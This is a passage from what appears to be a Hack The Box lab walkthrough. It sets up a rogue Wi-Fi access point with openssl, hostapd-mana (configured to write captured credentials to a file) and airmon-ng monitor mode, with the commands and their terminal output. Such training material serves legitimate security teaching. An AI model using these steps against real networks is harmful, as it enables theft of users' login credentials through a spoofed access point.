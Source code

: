 Students will generate the x509 certificate server using the previously generated certificates using `openssl`:

Code: shell

```shell
openssl x509 -req -days 100 -set_serial 01 -in server-key.pem -out server.pem -CA ca.pem -CAkey ca-key.pem
```

```
root@HTB-Corp:/home/wifi# openssl x509 -req -days 100 -set_serial 01 -in server-key.pem -out server.pem -CA ca.pem -CAkey ca-key.pem

Certificate request self-signature ok
subject=C=US, ST=California, L=San Francisco, O=Hack The Box, OU=HTB, CN=HTB, emailAddress=student@htb.com
```

Next, students will start the fake access point using `hostapd-mana` and specify the `hostapd.conf` file:

Code: shell

```shell
hostapd-mana hostapd.conf
```

```
root@HTB-Corp:/home/wifi# hostapd-mana hostapd.conf

Configuration file: hostapd.conf
MANA: Captured credentials will be written to file 'credentials.creds'.
rfkill: Cannot open RFKILL control device
Using interface wlan1 with hwaddr b2:e1:92:3d:e3:04 and ssid "HTB-Corp"
random: Only 16/20 bytes of strong random data available from /dev/random
random: Not enough entropy pool available for secure operations
WPA: Not enough entropy in random pool for secure operations - update keys later when the first station connects
wlan1: interface state UNINITIALIZED->ENABLED
wlan1: AP-ENABLED 
```

Students will open a new terminal, switch to the `root` user, and enable monitor mode on the `wlan0` interface using `airmon-ng`:

Code: shell

```shell
sudo -s
sudo airmon-ng start wlan0
```

```
wifi@HTB-Corp:~$ sudo -s
root@HTB-Corp:/home/wifi# sudo airmon-ng start wlan0

Found 4 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode

    PID Name
    180 avahi-daemon
    196 avahi-daemon
    208 NetworkManager
    277 wpa_supplicant

PHY	Interface	Driver		Chipset

phy2	wlan0		htb80211_chipset	HTB ChipSet of 802.11 radio(s) for mac80211
```